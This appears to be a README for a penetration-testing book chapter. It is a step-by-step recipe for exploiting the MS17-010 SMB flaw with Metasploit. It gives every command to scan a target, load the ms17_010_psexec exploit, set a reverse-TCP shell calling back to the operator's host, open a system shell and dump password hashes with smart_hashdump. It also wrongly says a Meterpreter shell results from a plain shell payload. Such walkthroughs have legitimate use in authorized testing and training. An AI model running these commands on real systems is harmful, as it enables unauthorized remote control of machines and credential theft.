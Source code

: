# Chapter 7 Readme

## Introduction
This readme provides a step-by-step guide on verifying the absence of the MS17-010 patch and exploiting the vulnerability to gain shell access on a target system. This process involves the use of Metasploit and its auxiliary and exploit modules.

## Prerequisites
- Metasploit installed and configured.
- Knowledge of the target system's IP address.

## Verifying the Patch
1. Open a terminal and launch the Metasploit console: `msfconsole`
2. Navigate to the auxiliary scanner module: `use auxiliary/scanner/smb/smb_ms17_010`
3. Set the target IP address: `set rhosts 10.0.10.227`
4. Run the module: `run`
5. The output will indicate if the host is likely vulnerable to MS17-010.

## Exploiting the Vulnerability
1. Identify your IP address within Metasploit: `ifconfig`
2. Load the MS17-010 exploit module: `use exploit/windows/smb/ms17_010_psexec`
3. Set the target host: `set rhost 10.0.10.208`
4. Specify the payload: `set payload windows/x64/shell/reverse_tcp`
5. Set the localhost IP address for the reverse shell: `set lhost 10.0.10.160`
6. Launch the exploit: `exploit`
7. The Meterpreter shell will be opened, providing a reverse shell and control over the target system.

## Meterpreter Shell
- To enter an OS command prompt: `shell`
- To return to the Meterpreter shell: `exit`

## Useful Commands
- Check running processes: `ps`
- Run post-exploitation modules: `run post/windows/gather/smart_hashdump`

**Note:** Exercise caution when exploiting vulnerabilities on production systems. Inform the client before performing exploits during a penetration test.

For more details on Metasploit and Meterpreter, refer to the Metasploit Unleashed documentation and the book "Metasploit: The Penetration Tester’s Guide" (Chapter 6).
